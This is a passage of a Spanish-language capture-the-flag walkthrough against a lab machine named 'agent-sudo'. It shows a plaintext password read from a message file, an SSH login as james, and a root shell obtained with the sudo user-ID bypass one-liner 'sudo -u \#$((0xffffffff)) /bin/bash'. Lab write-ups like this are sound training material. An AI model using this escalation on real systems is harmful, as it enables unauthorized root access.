 Leyendo el contenido del archivo `message.txt`:

```bash
❯ catn message.txt
Hi james,

Glad you find this message. Your login password is hackerrules!

Don't ask me why the password look cheesy, ask agent R who set this password for you.

Your buddy,
chris
```

Ya tenemos las credenciales del usuario **james** y podemos tratar de acceder vía ssh:

```bash
❯ ssh james@10.10.175.93
The authenticity of host '10.10.175.93 (10.10.175.93)' can't be established.
ECDSA key fingerprint is SHA256:yr7mJyy+j1G257OVtst3Zkl+zFQw8ZIBRmfLi7fX/D8.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.175.93' (ECDSA) to the list of known hosts.
james@10.10.175.93's password: 
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-55-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed Jun 21 03:58:43 UTC 2023

  System load:  0.0               Processes:           94
  Usage of /:   39.7% of 9.78GB   Users logged in:     0
  Memory usage: 32%               IP address for eth0: 10.10.175.93
  Swap usage:   0%


75 packages can be updated.
33 updates are security updates.


Last login: Tue Oct 29 14:26:27 2019
james@agent-sudo:~$ whoami
james
james@agent-sudo:~$
```

```bash
james@agent-sudo:~$ sudo -u \#$((0xffffffff)) /bin/bash
root@agent-sudo:~# whoami
root
root@agent-sudo:~#
```